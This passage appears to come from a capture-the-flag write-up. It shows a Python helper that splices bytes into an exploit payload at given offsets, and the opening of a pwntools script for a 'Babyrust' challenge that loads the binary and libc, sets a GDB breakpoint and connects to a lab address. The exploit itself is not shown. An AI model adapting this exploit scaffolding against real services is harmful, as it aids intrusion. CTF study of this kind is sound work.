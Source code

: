 ```python
        payload = payload.encode('latin-1')

    output = list(payload)
    
    if isinstance(filler, str):
        filler = filler.encode('latin-1')

    for off, data in rpdict.items():
        assert isinstance(off, (int, str, bytes)), "wrong off in rpdict! Type error!"
        assert isinstance(data, (int, bytes, str)), "wrong data: {}!".format(data)
        
        if isinstance(off, str):
            off = off.encode('latin-1')
        
        if isinstance(off, bytes):
            off = payload.find(off)
            assert off > -1, "Cannot find off in payload!"   
        else:
            assert off > -1, "wrong off in rpdict! Cannot be neg number!"

        if isinstance(data, str):
            data = data.encode('latin-1')
        elif isinstance(data, int):
            data = pack(data, word_size=context.bits, endianness=context.endian)
        distance = len(output) - len(data)
        if off > distance:
            output.extend([int.from_bytes(filler, "little")]*(off - distance))

        for i, d in enumerate(data):
            output[off+i] = d
        
    return bytes(output)
```

---------

## Babyrust

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./babyrust_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
global p

def conn():
    if args.LOCAL:
        p = process([exe.path])
        if args.GDB:
            gdb.attach(p,gdbscript='''
break *_ZN8babyrust4main17h57a652059325662bE+362
continue
''')
            sleep(2)
    else:
        p = remote("172.31.1.2",11102)
    return p

```